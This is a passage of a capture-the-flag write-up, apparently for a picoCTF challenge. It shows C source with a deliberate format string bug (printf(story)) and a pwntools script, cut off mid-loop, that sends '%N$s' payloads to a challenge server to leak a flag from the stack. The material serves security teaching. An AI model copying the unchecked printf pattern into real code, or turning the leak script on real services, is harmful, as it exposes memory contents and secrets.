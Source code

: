 ```c
void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

From the source code we can see it will read the flag into flag variable. Besides, vulnerability is format string vulnerability by looking at this code:
```c
printf(story);
```

Variables are store in stack, chances are we can leak the flag by utilizing this format string vulnerability.

I created a simply script to leaked the flag, not perfect but it will do its job:
```py
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)
context.log_level = "error"

for x in range(130):
  try:
    p = remote('saturn.picoctf.net', 49713)
    p.recvuntil(b">> ")
    p.sendline('%{}$s'.format(x).encode())
    p.recvline()
    leaked = p.recvline()
    if b"CTF{" in leaked:
      print("Flag:", leaked)
      break
    else:
```